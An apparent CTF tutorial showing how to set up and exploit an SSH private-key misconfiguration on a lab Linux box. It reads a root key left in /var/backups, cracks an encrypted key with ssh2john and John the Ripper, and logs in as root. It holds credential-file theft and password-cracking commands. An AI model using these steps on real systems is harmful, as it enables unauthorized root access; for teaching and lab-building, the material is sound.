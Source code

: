 # Linux Privilege Escalation - SSH for CTF Creators


# SSH

SSH allows us to establish an encrypted remote or local connection to a terminal. Depending on how the SSH service is configured we may be able to log in as another user or even the root user by one of these methods:

-   Private Keys
-   Agent Forwarding
-   Credentials

There are a numbers of ways that SSH can be used to elevate privileges on a system. Ranging from SSH keys to SSH agents.

#  Privilege Escalation via SSH Private Keys

First, let's make sure that we can log in as root by reading the SSH configuration file:

```shell
user@pwn:~$ grep PermitRootLogin /etc/ssh/sshd_config
#PermitRootLogin prohibit-password
# the setting of "PermitRootLogin without-password".
```

Generate the keys without a passphrase:

```bash
root@pwn:~# ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Created directory '/root/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:xxxxxxxxxxxxxxxxxxxxxxxxx root@pwn
The key's randomart image is:
<SNIP>

```

Verify if these keys were created:

```bash
root@pwn:~# ls -l /root/.ssh
total 8
-rw------- 1 root root 2602 Dec 20 20:45 id_rsa
-rw-r--r-- 1 root root  565 Dec 20 20:45 id_rsa.pub
```

Add the public key to the `authorized_keys` file:

```bash
cat /root/.ssh/id_rsa.pub > /root/.ssh/authorized_keys
```

A common misconfiguration that may see in CTF machines is where the private key is stored in insecure locations, in directories in which we have read permissions:

```bash
/tmp
/var/tmp
/var/backups
/var/www/html
/opt
/.ssh
/.custom_hidden_directory
```

Let's create a backup of the private key (normally we wouldn't do this in a real machine):

```bash
root@pwn:~# cp /root/.ssh/id_rsa /var/backups && chmod 755 -R /var/backups
```

Switch to the user-privileged user, to simulate the adversary scenario:

```bash
user@pwn:~$ ls -la /var/backups/id_rsa 
-rwxr-xr-x 1 root root 2602 Dec 20 20:45 /var/backups/id_rsa
user@pwn:~$ cat /var/backups/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
-----END OPENSSH PRIVATE KEY-----

```

As the adversary, we would either copy this text and create a file in our adversary host or transfer this file to our adversary host.

In our adversary host we must add the correct permissions to the private key:

```bash
chmod 600 id_rsa
```

Finally, log in as the owner of the private key and connect to the target host:

```bash
ssh -i id_rsa root@10.10.10.14
```

The output will look something like this:

```bash
❯ ssh -i id_rsa root@10.10.10.14
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-43-generic x86_64)

<...SNIP...>

root@pwn:~# whoami
root
root@pwn:~# hostname
ubuntu
```

#  Privilege Escalation via SSH Encrypted Private Keys

First, let's make sure that we can log in as root by reading the SSH configuration file:

```shell
user@pwn:~$ grep PermitRootLogin /etc/ssh/sshd_config
#PermitRootLogin prohibit-password
# the setting of "PermitRootLogin without-password".
```

Generate the keys, overwrite the existing keys and add a passphrase, I will use (`passme`) as the passphrase:

```bash
root@pwn:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
/root/.ssh/id_rsa already exists.
Overwrite (y/n)? y 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:xxxxxxxxxxxxxxxxxxxxxxxx root@pwn
The key's randomart image is:
<SNIP>

```

Verify if these keys were created:

```bash
root@pwn:~# ls -l /root/.ssh
total 12
-rw-r--r-- 1 root root  565 Dec 28 17:22 authorized_keys
-rw------- 1 root root 2635 Dec 28 17:30 id_rsa
-rw-r--r-- 1 root root  565 Dec 28 17:30 id_rsa.pub
```

Add the public key to the authorized_keys file:

```bash
cat /root/.ssh/id_rsa.pub > /root/.ssh/authorized_keys
```

A common misconfiguration that may see in CTF machines is where the private key is stored in insecure locations, in directories in which we have read permissions:

```bash
/tmp
/var/tmp
/var/backups
/var/www/html
/opt
/.ssh
/.custom_hidden_directory
```

Let's create a backup of the private key (normally we wouldn't do this in a real machine):

```bash
root@pwn:~# cp /root/.ssh/id_rsa /var/backups && chmod 755 -R /var/backups
```

Switch to the user-privileged user, to simulate the adversary scenario:

```bash
user@pwn:~$ cat /var/backups/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
<SNIP>
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
-----END OPENSSH PRIVATE KEY-----

```

Once we find the private key we can read the file and add it to our adversary host.

Now we need to crack this key, to do that we must convert the SSH key into a format that John understands, for that we can use ssh2john.

Find where ssh2john is located, otherwise, download it.

```shell
❯ find / -name 'ssh2john.py' 2>/dev/null
/usr/share/john/ssh2john.py
```

Convert the private key to `John` crackable format:

```bash
/usr/share/john/ssh2john.py id_rsa > id_rsa.john
```

Attempt to crack the hash with JohnTheRipper, this may take a while:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
passme           (id_rsa)
1g 0:00:04:52 DONE (2021-12-28 16:41) 0.003415g/s 63.16p/s 63.16c/s 63.16C/s sweetgurl..maria13
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now we know the passphrase of the private key which is (`passme`) so we can attempt to log in.

In our adversary host we must add the correct permissions to the private key:

```bash
chmod 600 id_rsa
```

Finally, log in as the owner of the private key:

```bash
❯ ssh -i id_rsa root@10.10.10.14
Enter passphrase for key 'id_rsa': # <- passphrase here
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-43-generic x86_64)

<...SNIP...> 

root@pwn:~# whoami
root
root@pwn:~#
```


